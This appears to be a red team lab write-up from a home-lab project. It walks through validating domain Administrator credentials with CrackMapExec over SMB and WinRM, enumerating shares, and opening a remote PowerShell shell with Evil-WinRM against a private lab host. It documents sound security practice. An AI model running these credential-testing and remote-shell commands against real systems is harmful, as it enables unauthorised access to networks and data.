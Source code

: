 # Stage 3 – Credential Access and Remote Shell via WINRM

---

## Objective

The goal of Stage 3 was to identify valid domain credentials and use them to gain authenticated access to the target system.

Simulated a typical red team scenario involving:

- SMB enumeration with known credentials
- WINRM validation using CrackMapExec
- Full domain shell access via Evil-WinRM

---

## Tools Used

- CrackMapExec (SMB / WINRM validation)
- Evil-WinRM (interactive shell)

---

## Credentials Used

| Username      | Password         | Domain        |
|---------------|------------------|---------------|
| Administrator | password    | redblue.lab   |

---

## Steps Performed

### 1. Credential Validation via SMB

```bash
crackmapexec smb 192.168.56.101 -u Administrator -p 'password'
```
- Tests whether the provided credentials are valid over SMB (file-sharing protocol) on the target machine.

### 2. Share Enumeration

```bash
crackmapexec smb 192.168.56.101 -u Administrator -p 'password' --shares
```
- Enumerates available network shares (like C$, ADMIN$, SYSVOL, NETLOGON) accessible to this user.

See /RedBlue-Enterprise-Lab/phase2_red_team/stage3_credential_access/stage3_cme_smb.txt

### 3. WINRM Access Validation

``` bash
crackmapexec winrm 192.168.56.101 -u Administrator -p 'password'
```
- Checks if the credentials allow access over the WINRM service, which is needed for remote PowerShell shell access.

### 4. Remote Shell Access with Evil-WinRM

``` bash
evil-winrm -i 192.168.56.101 -u Administrator -p 'password'
```
- Launches an interactive PowerShell session on the remote machine as the authenticated domain user (Domain Admin in this case).

- Confirmed access as redblue\Administrator
- Performed commands like whoami, dir, pwd
